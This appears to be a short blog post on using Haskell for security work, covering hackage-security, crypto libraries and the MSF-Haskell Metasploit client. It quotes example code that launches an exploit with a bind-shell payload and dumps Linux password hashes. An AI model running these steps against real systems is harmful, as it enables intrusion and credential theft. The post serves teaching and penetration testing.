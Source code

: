 ```yaml
---
layout: post
title: Security with Haskell
author: terceranexus6
image:
  feature: banners/header.jpg
tags: seguridad haskell programación-funcional
---
```


From "*you are crazy*" to "*why even?*" are some of the things my friends in the computer science environment have told me when I started working with Haskell in general and security in particular. Answering in order, yes I'm crazy but not because of Haskell and well, there's a reason why I chose to use Haskell for security. First of all, functional programming *is the new black* and probably more and more apps will be build using it. Choosing a pure functional language for security is not that crazy. On the other hand, the mathematical approaching Haskell has is very useful in cryptography.

<img src="{{ site.url }}/assets/images/dev.to/tumblr_lpkxtmFtmp1qc8ie7o1_500.gif" style="display: block; margin: 0 auto;">

So, how can I use Haskell for auditoring security?

I'd like to point here to an specific library called [hackage-security](https://hackage.haskell.org/package/hackage-security) which, currently supports only index signing. As described in the wiki, *The library has two main entry points: [Hackage.Security.Client](https://hackage.haskell.org/package/hackage-security-0.5.3.0/docs/Hackage-Security-Client.html) is the main entry point for clients, and [Hackage.Security.Server](https://hackage.haskell.org/package/hackage-security-0.5.3.0/docs/Hackage-Security-Server.html) is the main entry point for servers*. It is worth a check.

Apart from this, there's also a repository in github called [MSF-Haskell](https://github.com/GaloisInc/msf-haskell) that allows performing Penetration testing with haskell. It also includes a script in haskell as an example, and the whole whitepaper, too. It's actually an implementation of the Metasploit API which makes developers able to write Haskell clients that communicate with the Metasploit server. For example, in the part of the example script, launches an example exploit against a target host.

```
launchExploit :: (LoudCxt s) => Host Attackable -> MSF s ()
launchExploit targetHost = do
  _ <- module_execute metasploitableModuleType metasploitableModuleName
      $ toObject
      $ Map.fromList
          [ ("RHOST",   toObject targetHost)
          , ("PAYLOAD", toObject metasploitablePayload)
          ]
  return ()
```

And we previously defined the payload itself:

```
metasploitablePayload = Payload "cmd/unix/bind_perl"
```

Or this part for grabbing password hashes:

```
gatherCredentials :: (LoudCxt s) => SessionId -> MSF s ()
gatherCredentials sessionId = do
  let modTyp = PostModuleType
      modNm = ModuleName "linux/gather/hashdump"

  r <- module_execute modTyp modNm
      $ toObject
      $ Map.fromList
          [ ("SESSION",   toObject sessionId)
          ]
  case r of
    (ExecJobId j) -> waitJob j
    _             -> return ()
```

To sum up, Haskell `could` be an option for `functional` scripting in security. `[Maybe](https://wiki.haskell.org/Maybe)` good_option, you know, just an option or nothing, haha functional joke, badum tss.

<img src="{{ site.url }}/assets/images/dev.to/Ba-dum-tish.png" style="display: block; margin: 0 auto;">

Anyway these are brand new type of attacks! even from a scratch, and not using API's implementations such as before described. Speaking about crypto, this [repo](https://github.com/mfourne/eccrypto.git) is interesting, as it handles elliptic curves encryption. Welp, I invite you all to take a look to [cryptography repos](https://hackage.haskell.org/packages/search?terms=cryptography) in the official Haskell web, as well as the security [repos](https://hackage.haskell.org/packages/search?terms=security). I'm still investigating, so if anyone is working on the same field here, please provide more info!

*Also written in: [https://dev.to/terceranexus6/security-with-haskell-3cio](https://dev.to/terceranexus6/security-with-haskell-3cio)*
